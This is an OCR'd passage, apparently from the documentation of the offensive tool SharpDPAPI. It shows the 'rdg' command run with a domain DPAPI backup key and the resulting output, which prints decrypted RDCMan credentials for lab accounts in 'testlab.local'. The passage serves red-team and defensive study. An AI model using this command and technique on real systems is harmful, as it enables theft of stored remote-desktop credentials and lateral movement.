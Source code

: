             Cred Profiles

              Profile Name : testprofile
                UserName   : testlab.local\dfm
                Password   : Password123!

            Default Logon Credentials

              Profile Name : Custom
                UserName   : TESTLAB\harmj0y
                Password   : Password123!

          C:\Users\harmj0y\Documents\test.rdg

            Servers

              Name         : secondary.testlab.local

              Name         : primary.testlab.local
              Profile Name : Custom
                UserName   : TESTLAB\dfm.a
                Password   : Password123!


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    C:\Temp>SharpDPAPI.exe rdg /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.3.0


    [*] Action: RDG Triage

    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

    [*] User master key cache:

    {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
    ...(snip)...

    [*] Triaging RDCMan.settings Files for ALL users

        RDCManFile    : C:\Users\harmj0y\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
        Accessed      : 5/9/2019 11:52:58 AM
        Modified      : 5/9/2019 11:52:58 AM
        Recent Server : test\primary.testlab.local

            Cred Profiles

              Profile Name : testprofile
                UserName   : testlab.local\dfm.a
                Password   : Password123!

            Default Logon Credentials
